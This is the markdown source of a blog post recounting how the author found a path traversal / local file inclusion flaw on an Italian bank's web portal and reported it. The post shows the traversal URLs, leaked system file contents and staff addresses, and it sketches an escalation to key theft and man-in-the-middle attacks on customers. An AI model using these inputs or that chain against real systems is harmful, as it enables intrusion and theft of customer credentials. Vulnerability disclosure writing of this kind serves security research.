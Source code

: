 ```yaml
---
published: true
title: How i found an LFI vulnerability on a major banking site
layout: post
---
```

![Alt Text](https://cdn-images-1.medium.com/max/1600/1*uRPk2m9Rs_8lSuEleEpgLw.gif)

Well yes, the title is a bit clickbait but that's what exactly happened some weeks ago when i was bored on an italian banking website, let's call it MPBbanking.<br><br>
As always with "Great updates comes great responsability" for the Sysadmins that maintain such systems and that day since was their migration day from an old platform to a new one (from mpbbanking to youweb.bankmpb) i decided to explore what new features this portal has to offer... Just a few clicks and everything seems responsive and too cool to be good so i tried out the good'old LFI to be sure that everything was safe and configured correctly...  <br>
Types on the web browser URL: youweb.bankmpb.it/../../../../etc/passwd <br>
<br>
 Created by anaconda<br>
<br>
Users And Groups Exposed<br>
<br>
root:x:0:0:root:/root:/bin/bash<br>
bin:x:1:1:bin:/bin:/sbin/nologin<br>
daemon:x:2:2:daemon:/sbin:/sbin/nologin<br>
adm:x:3:4:adm:/var/adm:/sbin/nologin<br>
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin<br>
sync:x:5:0:sync:/sbin:/bin/sync<br>
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown<br>
halt:x:7:0:halt:/sbin:/sbin/halt<br>
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin<br>
operator:x:11:0:operator:/root:/sbin/nologin<br>
..<br>
..<br>
.<br>
<br>
At the beginning my reaction was like.. Well that must be a honeypot because they should have a real-badass Sysadmin(s) running HIDS/DPI/Sensors/Alerts & Monitoring every breath of any system in the radius<br>
of an entire DC.<br><br>
But then i said well what if they aren't so badass and missed that, so i type:  youweb.bankmpb.it/../../../../etc/hosts and then .. :
<br><br><br>
##########################<br>
#####ATTENZIONE !!<br>
##<br>
##FILE GESTITO DA PUPPET<br>
##NON MODIFICARE A MANO<br>
###########################<br>
#<br>
###########<br>
 VERONA<br>
###########<br>
options timeout:1 attempts:1<br>
search servizi *.group *.group *.zserver *.nexus<br>
nameserver *.*.5.25<br>
nameserver *.*.5.26<br>
nameserver *.*.140.25<br>
#nameserver *.*.140.26<br>
<br>
<br>
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4<br>
<br>
*.*.203.12	*.*.group	*<br>
<br>
<br><br><br>
Wow... we are dealing with a DevOpser (Master of Puppets)...and that is an LFI (*hacker-voice* "we are in", and i didn't even need my great tool inspect element to hack their JS/CSS).<br>
So i kept checking if i can find the contact of their Sysadmin to report him this vulnerability that could cost them $$ if exploited well.... *checking postfix conf for contact* :<br><br>
#trap decode to catch security attacks<br>
decode:		root<br>
<br>
#Person who should get root's mail<br>
#root:		marc<br>
#root:	 fabian.adam@mpbcorp-address.it,frank.life@mpbcorp-address.it <br>
<br><br><br>
Well if they should get root's mail then i'll contact them about this.<br>
The day after i got this "Macro" reply from "frank" :<br>
Good afternoon Sami,<br>
Thank you for the advisory.<br>
<br>
We have forwarded our email to the right departement that will analyse the context and take remedial action<br>
<br>
<br>
Best Regards,<br>
Frank<br>
<br>
Sent from my IBM Verse  <br>
<br>
<br>
Yep probably the "right departement" is his colleague next to him and he used this "Macro".<br>
<br>
<br>
Just some hours after this email they started to fix this LFI and no feedback.<br>
<br>
The next day i sent them another email (cc'ing some other colleagues email addresses) asking if they have any running "Whitehat/Bug bounty program" because if this is how they keep things secure even a script kiddie could find some interesting stuff in their systems.<br>
<br>
12 Days later  --> Still no reply --> What a great way to give feedback to fellow Sysadmin that helped out and reported to you a vulnerability in your systems.<br>
<br>
<br>
Yep, i know that MPBCORP is big and probably no one cares because i'm the only one (or someone else found out and was trying to hack you silently) that noticed this but what if they breached some serious data from your system and custumer data was at risk? <br>
<br>
<br>
What could have happened (From less to more skilled):<br>
-  Script kiddie tries to hack using any tool found on the net (% of compromise very low but ain't 100% sure on your security after i saw selinux on permissive)<br>
- "Simple" Hacker found out LFI on the site --> Sells directly this on 0day/exploit forums/deepweb makes some cash $$ even if doesn't show how to exploit the system<br>
- "Expert" Hacker silently gather all the system data for months and then plan for major data-breach & compromise of their infrastructure...Sysadmin: Come on.. LFI ain't so dangerous --> Just Google LFI to RCE  678.000 results in 0,80 seconds and after<br>
you gathered all the system information i think it's just a matter of time (wait for exploits to come out, discover your self or buy a 0day) to compromise the host. <br>
- "Pro" Hacker plans for his malicious plan of getting on his hands their SSL private key .pem file after he got RCE (Since he is "Pro" that what he does daily..that step will take him no time) <br>
   a) "Refactor" file permissions on .pem files<br>
   b) Download the .pem <br>
   c) MITM bank customers and get all their credentials on (W)LANS (Why not WAN.. if you have Ratted victim PC or compromised a router)<br>
   d) Massive blackhat profits<br>
<br>
<br>
Well that's it, fix at least your critical stuff and reply to contacts/abuse fellow Sysadmins.<br>
<br>
:Wq!:wq:WqESCESCESC:wq:wq:wq! CTRL+Z^C^C^C^C^C^C^C^C^C^^C^C<br>
[1]+  Stopped 		vi<br>
<br>
Sami<br>
 









